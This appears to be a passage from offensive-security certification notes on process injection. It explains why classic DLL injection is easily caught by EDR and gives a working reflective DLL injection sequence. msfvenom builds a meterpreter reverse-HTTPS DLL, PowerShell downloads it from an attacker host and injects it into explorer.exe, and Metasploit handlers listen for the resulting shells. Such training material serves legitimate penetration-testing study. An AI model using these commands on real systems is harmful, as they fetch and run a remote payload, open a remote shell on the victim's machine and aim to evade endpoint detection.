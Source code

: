 1. Malicious Process carves out a memory space on target process;
2. Trick the target process to invoke “LoadLibrary function” with malicious DLL which is stored on disk space in first place;

This technique is kind of old and has a significant drawback of leaving malicious DLL on disk and loading to target process, it would be easily detected by EDR.

# Reflective DLL Injection

```powershell
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.66 LPORT=4455 EXITFUNC=thread -f dll -o met2.dll

$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.66:7979/met2.dll')
$procid = (Get-Process -Name explorer).Id

Import-Module C:\Tools\Invoke-ReflectivePEInjection.ps1
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

![Untitled](/assets/img/2023-01-14-OSEP-Process-Injection-Migration/Untitled%204.png)

Even though, the above execution generates some error messages, the reflective DLL still has been invoked successfully. 

How to use metasploit to setup multiple handlers which are listening on different ports ? 

Use “run -jz” command to move current handler to backend job

```powershell
msf6 exploit(multi/handler) > run -jz
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started HTTPS reverse handler on https://192.168.49.66:4456
msf6 exploit(multi/handler) > jobs

Jobs
====

  Id  Name                    Payload                                Payload opts
  --  ----                    -------                                ------------
  0   Exploit: multi/handler  windows/x64/meterpreter/reverse_https  https://192.168.49.66:4456
```
